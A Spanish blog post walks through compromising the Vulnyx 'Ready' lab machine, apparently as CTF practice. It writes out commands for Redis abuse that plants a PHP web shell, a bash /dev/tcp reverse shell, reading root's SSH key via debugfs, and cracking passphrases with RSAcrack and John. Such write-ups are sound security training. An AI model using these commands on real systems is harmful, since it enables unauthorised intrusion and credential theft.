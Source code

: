 ```yaml
---
layout: post
title:  "Ready"
date:   2024-04-11 11:37:29
categories: Vulnyx
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Ready</td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#ready"> Vulnyx</a></td> </tr>
</table>

<br>

![machine](/notas/public/img/vulnyx/ready/readypc.png){:.margin}

**1\.** teniendo la ip de la maquina, hacemos un descubrimiento de puertos

`sudo nmap -p- --open -sS -T5 --min-rate=5000 192.168.1.7 -n -Pn`

![p80](/notas/public/img/vulnyx/ready/nmap_ports.png){:.margin}

**2\.** lanzamos un conjunto de script de reconocimiento a dichos puertos

`sudo nmap -p22,80,6379,8080 -sCV -n -Pn 192.168.1.7`

![versions](/notas/public/img/vulnyx/ready/nmap_version.png){:.margin}

**3\.** Revisamos apache en los puertos 80 y 8080, no vemos nada interesante

![versions](/notas/public/img/vulnyx/ready/apache_80.png){:.margin}
![versions](/notas/public/img/vulnyx/ready/apache_8080.png){:.margin}

**4\.** Podemos fuzzear ambos servicios de apache, pero no encontraremos nada interesante

`gobuster dir -u http://192.168.1.7:80/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz80.png){:.margin}

`gobuster dir -u http://192.168.1.7:8080/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -t 50 -x html,php,txt -b 404,403`

![versions](/notas/public/img/vulnyx/ready/fuzz8080.png){:.margin}

**5\.** Probamos acceder a redis sin credenciales (Se puede), tambien podemos crear un archivo php en el servidor apache

`redis-cli -h 192.168.1.7`

`config get dir`

`config set dbfilename shell.php`

`config set dir /var/www/html/`

`set shell.php "<?php system($_GET['cmd']);?>"`

`save`

`exit`

![redis](/notas/public/img/vulnyx/ready/redis.png){:.margin}

**6\.** Apuntamos hacia nuestro archivo generado, incluimos el parametro cmd para mediante este ingresar comandos de sistema.

\- En el puerto 80 no lo encontramos: `http://192.168.1.7/shell.php?cmd=id`
![notfound](/notas/public/img/vulnyx/ready/not_found_80.png){:.margin}

\- Sobre el 8080 si que podemos: `http://192.168.1.7:8080/shell.php?cmd=id`

![found](/notas/public/img/vulnyx/ready/found_8080.png){:.margin}

**7\.** Nos ponemos en escucha en el puerto 443

`sudo nc -nlvp 443`

![nc](/notas/public/img/vulnyx/ready/nc.png){:.margin}

**8\.** Ingresamos el comando para obtener un Reverse Shell

`http://192.168.1.7:8080/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.13/443 0>%261"`

![revershell](/notas/public/img/vulnyx/ready/revershell.png){:.margin}

**9\.** Ya teniendo acceso a la máquina, estamos como usuario Ben, revisamos los grupos al que pertenece.

-Pertenemos al grupo disk, con esto podemos montar y desmontar Unidades

`id`

![id](/notas/public/img/vulnyx/ready/id.png){:.margin}

**10\.** Revisamos unidades disponibles

`df -h`

![df](/notas/public/img/vulnyx/ready/df.png){:.margin}

**11\.** Buscamos la herramienta de análisis y depuración de archivos   

`find / -type f -name debugfs 2>/dev/null`

`which debugfs`

![debugs](/notas/public/img/vulnyx/ready/debugfs.png){:.margin}

**12\.** Ingresamos al disco sda1, luego leemos la llave privada de root.

`/usr/sbin/debugfs /dev/sda1`

`cat /root/.ssh/id_rsa`

![idrsa](/notas/public/img/vulnyx/ready/cat_idrsa.png){:.margin}

**13\.** Vemos que la llave esta protegida, lo copiamos y lo guardamos en un archivo en nuestra máquina local 

`nano key`

![key](/notas/public/img/vulnyx/ready/key.png){:.margin}

**14\.** En este caso usare la herramienta RSAcrack para obtener un passphrase

`sudo RSAcrack -w /usr/share/wordlists/rockyou.txt -k key`

![rsacrack](/notas/public/img/vulnyx/ready/rsacrack.png){:.margin}

**15\.** Teniendo la clave nos conectamos como root por ssh

`ssh -i key root@192.168.1.7`

![ssh](/notas/public/img/vulnyx/ready/ssh.png){:.margin}

**16\.** Vemos que tenemos un comprimido, abrimos un servidor local

`ls`

`python3 -m http.server 8081`

![img](/notas/public/img/vulnyx/ready/python_server.png){:.margin}

**17\.** Desde nuestra máquina local nos descargamos el comprimido

`wget http://192.168.1.7:8081/root.zip`

![img](/notas/public/img/vulnyx/ready/wget.png){:.margin}

**18\.** Intentamos descomprimir pero necesitamos un acontraseña

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/unzip.png){:.margin}

**19\.** Utilizamos zip2john para obtener un hash que representa la contraseña

`zip2john root.zip > hashzip`

![img](/notas/public/img/vulnyx/ready/zip2john.png){:.margin}

**20\.** Ahora desciframos la contraseña

`john --wordlist=/usr/share/wordlists/rockyou.txt hashzip`

![img](/notas/public/img/vulnyx/ready/clave.png){:.margin}

**21\.** Teniendo la clave procedemos a descomprimir, asi obtenemos la "flag" de root

`unzip root.zip`

![img](/notas/public/img/vulnyx/ready/flag.png){:.margin}

<br>

<a href="#">_Finalizado._</a>
